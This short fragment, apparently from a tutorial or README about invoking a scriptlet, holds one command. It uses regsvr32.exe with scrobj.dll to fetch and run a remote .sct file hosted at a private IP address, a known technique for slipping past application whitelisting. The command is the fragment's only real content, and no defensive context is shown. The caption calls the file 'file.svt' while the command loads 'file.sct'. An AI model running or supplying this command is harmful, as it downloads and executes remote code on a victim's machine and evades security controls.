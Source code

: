 


Invoking our file.svt by hosting it on a server
```
regsvr32.exe /s /i:http://10.0.0.5/file.sct scrobj.dll
```
